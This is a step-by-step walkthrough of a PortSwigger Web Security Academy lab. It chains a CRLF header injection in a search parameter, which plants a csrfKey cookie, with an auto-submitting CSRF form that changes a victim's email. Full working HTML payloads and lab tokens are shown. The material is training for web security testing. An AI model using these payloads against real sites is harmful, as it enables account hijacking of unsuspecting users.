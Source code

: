 # Lab: CSRF where token is tied to non-session cookie

 This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

    wiener:peter
    carlos:montoya

# Step 1 Walk the application's Email reset functionality

I login as wiener, and intercept the request to change email, then send it to repeater:

![image](https://user-images.githubusercontent.com/83407557/210870221-2f12ff26-95c4-4a9a-9664-4369f2e97766.png)

There are three things I want to test with this page, the csrfKey cookie, the session cookie, and the csrf token.

## csrfKey

Deleting most of the csrfKey and sending an invalid value I get a csrf token error:

![image](https://user-images.githubusercontent.com/83407557/210870598-892dfe43-c11e-4b5e-b121-d6d6da128f69.png)

## session cookie

Doing the same for the session cookie logs me out:

![image](https://user-images.githubusercontent.com/83407557/210870737-27304240-5d0b-41b1-8f0a-047e4aa1dc61.png)

## csrf token

And then testing the csrf token, I get the same csrf token error as with the csrfKey cookie:

![image](https://user-images.githubusercontent.com/83407557/210870993-1c67e807-4b64-40b1-a032-358967437bc8.png)

This tells me that the csrf token and key are not tied to the session

# Step 2 see if the csrf Key and Token are linked

I want to see if adding just the csrf token from another user, but with my current csrfKey cookie will error, if not they are not tied together and a simple CSRF attack is possible:

## Grab carlos csrf token 

I login to carlos in a private window and capture the change email request with burp

![image](https://user-images.githubusercontent.com/83407557/210871827-192638ad-e4c6-4a37-bc1e-5f5079e10f2d.png)

I then go back to repeater and use carlos' csrf token for wiener's request with a different csrfKey

![image](https://user-images.githubusercontent.com/83407557/210872135-e719b198-675d-4f38-8975-02d82aade540.png)

This tells me that the csrf token and key are linked, so I need to chain another attack to set a cookie for the victim in conjunction to the csrf attack.

# Step 3 HTTP header attack

I find a way to set a cookie within the search function of the webapp:

![image](https://user-images.githubusercontent.com/83407557/210872789-f3b76553-3f4b-490c-8cbe-61ad7235aad0.png)


Note that before I perform a search I have 2 cookies set, session and csrfKey:

![image](https://user-images.githubusercontent.com/83407557/210872686-6af26c5c-cd8e-4e7b-9441-b5a04ce1afc8.png)

However after I perform a search:

![image](https://user-images.githubusercontent.com/83407557/210872895-d76b7625-97c7-4872-922f-8a5f4f66d6c9.png)

I have a new cookie set 

![image](https://user-images.githubusercontent.com/83407557/210873066-d6db1529-e817-4523-91d4-95da74c36efd.png)

## Try and set a cookie called hacks

I capture the search function again with burp

![image](https://user-images.githubusercontent.com/83407557/210873595-cdbc75ab-9dc7-4579-9a9c-b04b9c270af0.png)

to try and add a new cookie called hacks I use the following:

```
%0d%0aSet-Cookie:%20hacks=hacked
```

![image](https://user-images.githubusercontent.com/83407557/210873920-b43c236a-93ee-4b53-b3fa-a5e7c5156090.png)

I see that I was able to set a cookie using a the search feature:

![image](https://user-images.githubusercontent.com/83407557/210874180-b1286e81-accc-4476-adc8-2f023ece4824.png)

# Step 4 CSRF POC

Going back to repeater, I send the request I had been testing to CSRF POC generator:

![image](https://user-images.githubusercontent.com/83407557/210874478-28194255-48c3-4dbe-8a86-5eb00bfc67fe.png)

Under options I add the auto-submit scrip and hit regenerate:

![image](https://user-images.githubusercontent.com/83407557/210874653-76a60ac5-b0f2-4b52-9b87-493f48259cf5.png)

I change the email to test2@test.com, and instead of a script I use an invalid img tag that will use the found header attack to set a cookie and on error perform the script action:

**Without header attack**
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a11008a04b518cbc1444a5600650022.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="8ymDx91k6ZMvNjeOmogE61ppqQbYTyXm" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**With header attack**
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a11008a04b518cbc1444a5600650022.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="8ymDx91k6ZMvNjeOmogE61ppqQbYTyXm" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a11008a04b518cbc1444a5600650022.web-security-academy.net/?search=hacks%0d%0aSet-Cookie:%20csrfKey=MAWxzPiauewxYjGNyiH10lQ0Lg7RykzS" onerror="document.forms[0].submit()">
  </body>
</html>
```

# Step 5 Host exploit on attack server

I add this chained payload to the body of /exploit on my attack server and save it:

![image](https://user-images.githubusercontent.com/83407557/210876335-be5f8d53-9528-4144-b266-963e2bcb97e1.png)

When I view the exploit I see that my email is changed to test2@test.com:

![image](https://user-images.githubusercontent.com/83407557/210876424-8a871d79-eee5-4af9-afce-037db9ebd895.png)

# Step 6 send exploit to victim

Now that I know that the exploit works against my account, and that the token and key are not tied to a session, I send the exploit to the target victim:

![image](https://user-images.githubusercontent.com/83407557/210876566-b13b0b7b-1c47-40ef-891a-e5dce258ef2d.png)

This fails, so I capture another change email request:

![image](https://user-images.githubusercontent.com/83407557/210877045-c2cfb759-9cf9-499a-b68b-b9da7c3de7bc.png)

and update the exploit with these csrfKey and token values

csrf=XfMQOGK3ujqJfIWNnxxTBZMeb1OUZuGn
csrfKey=Yyuxj9UTnZflhf9y1FTQlERcfSWEt1Db

![image](https://user-images.githubusercontent.com/83407557/210877447-7ccf015c-f21f-480c-a89c-27130ed33324.png)

I found that I had to add the following line to the payload to get it to work correctly:
`%3b%20SameSite=None`

![image](https://user-images.githubusercontent.com/83407557/210879021-36f11c9d-470c-42b4-8bfc-0870bcaeb479.png)

Making the payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a11008a04b518cbc1444a5600650022.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="XfMQOGK3ujqJfIWNnxxTBZMeb1OUZuGn" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a11008a04b518cbc1444a5600650022.web-security-academy.net/?search=hacks%0d%0aSet-Cookie:%20csrfKey=Yyuxj9UTnZflhf9y1FTQlERcfSWEt1Db%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

And solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210879112-1781a6b3-64ac-4c46-a5a9-009bf7c0e861.png)

